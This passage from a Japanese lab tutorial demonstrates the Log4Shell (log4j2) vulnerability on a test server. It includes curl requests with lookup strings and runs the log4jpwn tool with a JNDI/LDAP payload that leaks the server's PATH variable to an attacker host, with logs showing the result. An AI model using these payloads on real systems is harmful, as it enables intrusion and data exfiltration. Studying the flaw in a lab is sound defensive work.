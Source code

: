 ### log4j2で記録されるログ
Javaのプログラムの動作は、/hello にGETリクエストが来たら、クエリパラメータ「name」の内容をログに書き込む処理をします。
なので、クエリパラメータに「Alice」「${java:version}」「${env:PATH}」をそれぞれURLエンコードして送信してみます。

```bash
~]$ curl http://192.168.56.105:8080/log4j2-vulnapp/?name=Alice
~]$ curl http://192.168.56.105:8080/log4j2-vulnapp/?name=%24%7bjava%3aversion%7d
~]$ curl http://192.168.56.105:8080/log4j2-vulnapp/?name=%24%7benv%3aPATH%7d
```
ログの内容を確認すると、「${ }」の中身を評価して展開した文字列がログに記録されました。
評価する必要がない java:version (Javaのバージョン) や env:PATH (環境変数のPATH) が展開されていることが確認できます。
```bash
~]# tail -f /var/log/tomcat/catalina.log
[2021-12-30 12:00:00.000] INFO  HelloServlet   - name=Alice
[2021-12-30 12:00:01.000] INFO  HelloServlet   - name=Java version 1.7.0_261
[2021-12-30 12:00:02.000] INFO  HelloServlet   - name=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
```

### 評価した文字列の吸い上げ
サーバの環境変数などの文字列を攻撃者が取得するには、評価した文字列をパス含むURLで攻撃者サーバにアクセスさせる方法があります。
今回は GitHub で公開されている log4jpwn を使用します。
以下は、攻撃側サーバが 192.168.56.104 で、やられサーバが 192.168.56.105 のIPアドレスです。
```bash
~]$ git clone https://github.com/leonjza/log4jpwn
~]$ vi log4jpwn/pwn.py   # 送信時のクエリパラメータをnameに変更する
~]$ python3 log4jpwn/pwn.py --target http://192.168.56.105:8080/log4j2-vulnapp/ --exploit-host 192.168.56.104 --payload-query-string --leak '${env:PATH}'
 i| starting server on 0.0.0.0:8888
 i| server started
 i| setting payload in User-Agent header
 i| setting payload as query string 'name'
 i| sending exploit payload ${jndi:ldap://192.168.56.104:8888/${env:PATH}} to http://192.168.56.105:8080/log4j2-vulnapp/
 i| new connection from 192.168.56.105:33408
 v| extracted value: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
 i| new connection from 192.168.56.105:33410
 v| extracted value: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
 i| new connection from 192.168.56.105:33412
 v| extracted value: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
 i| new connection from 192.168.56.105:33414
 v| extracted value: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
 i| request url was: http://192.168.56.105:8080/log4j2-vulnapp/?name=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.104%3A8888%2F%24%7Benv%3APATH%7D%7D
 i| response status code: 200
```
やられサーバ側のログには、以下のようなログが残ります。
攻撃者のサイトにアクセスしてもシリアライズされたJavaコードが取得できなかった場合は元の文字列がそのまま出力されるようです。
```bash
~]# tail -f /var/log/tomcat/catalina.log
[2021-12-30 12:00:03.000] INFO  HelloServlet   - name=${jndi:ldap://192.168.56.104:8888/${env:PATH}}
```
攻撃者のサイトにアクセスしたときに、シリアライズされたJavaコードが取得できた場合は、そのインスタンスを文字列にした結果がログに記録されます。
```bash
~]# tail -f /var/log/tomcat/catalina.log
[2021-12-30 12:00:00.000] INFO  HelloServlet   - name=com.sun.jndi.ldap.LdapCtx@24a0ff23
```
